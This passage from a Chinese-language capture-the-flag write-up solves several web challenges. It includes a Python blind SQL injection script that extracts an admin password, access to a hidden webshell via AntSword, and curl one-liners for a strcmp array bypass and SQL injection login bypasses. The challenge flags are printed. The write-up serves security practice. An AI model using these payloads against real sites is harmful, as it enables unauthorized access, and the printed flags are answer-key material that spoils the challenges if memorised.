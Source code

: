 最后得到的长度是 34, 瞎几把爆了半天密码, 结果字典里没有空格导致有些地方没有爆出来, 长度不是 34. 最后才发现 passencode.php 这个文件, 可以看到密码是由明文 ascii 编码后中间填充空格得到的, 所以我们爆破时 payload 选用数字 + 空格就够了 (要是早点知道这个文件的话上面其实没爆出来空格也可以),

```python
def bpForVal(pos): #102 117 99 107 114 117 110 116 117 
    global a
    for val in table:
        payload = "1 and if(substr((select userpass from admin where username = 0x61646d696e), {p}, 1) = {v} , 1, 0) = 1".format(p=str(pos), v=str(hex(ord(val))))
        #print(payload)
        postData = {
            "soid": antiAntiInject(payload)
        }
        res = sess.post("http://cms.nuptzj.cn/so.php", postData)
        res.encoding = "utf-8"

        if res.text.find("xlcteam")!=-1:
            a += val
            print(a)
            break
```

最后得到 `102 117 99 107 114 117 110 116 117` 即是密码, 明文即是 `fuckruntu` (#日闰土? 什么鬼233) 后台可以在 about.php 自身看到, 敏感目录`loginxlcteam` 即是 (这就叫此地无银三百两吧 233), 用 admin + 明文密码就可以登上了. 提示 `xlcteam.php` 是后门, 用 about.php 查看发现完全看不懂 233, 百度了下发现可以搜到, 是使用的回调函数来隐藏, 不明觉厉, 这里我就先用百度上说的调用方式了, 具体原理日后再分析. 地址是 `http://cms.nuptzj.cn/xlcteam.php?www=preg_replace`, 密码是`www`, 可以直接用蚁剑连上, 得到 `nctf{you_are_s0_g00d_hacker}`, 然而我还是太菜了 QAQ.

### 0x0B 密码重置

直接 F12, 删除账号的输入框的 readonly 属性后改成 admin 就行了, 得到 `nctf{reset_password_often_have_vuln}`

### 0x0C 密码重置

又是弱类型 `54975581388` 的十六进制即是 `0xccccccccc` , 恰好没有数字, key=0xccccccccc. 得到 `nctf{follow_your_dream}`

### 0x0D pass check

旧版本 php 的函数 strcmp 对数组这种不合法变量进行比较时, 存在漏洞会返回 0, `curl -X POST http://chinalover.sinaapp.com/web21/ -d "pass[]=1"`, 得到 `nctf{strcmp_is_n0t_3afe}`

### 0x0E SQL注入1

注意密码是会被 md5 的, 所以注入点在用户名, 将后面的语句注释掉就可以了, `curl -X POST http://chinalover.sinaapp.com/index.php -d "user=admin ')#&pass=asd"`, 得到 `nctf{ni_ye_hui_sql?}`

### 0x0F SQL注入1

一开始还以为要时间盲注一波, 发现题目有提示 `union`, 然而还没听说过, 就搜了一波大神的题解, 发现还有这种操作, 太强了. `curl -X POST http://chinalover.sinaapp.com/web6/index.php -d "user=1' union select md5('asd')#&pass=asd"`, 因为用户 1 是不存在的, 所以 query\[pw\] 的结果实际上是 md5('asd'), 导致绕过检验, 得到 `ntcf{union_select_is_wtf}`

### 0x10 伪装者
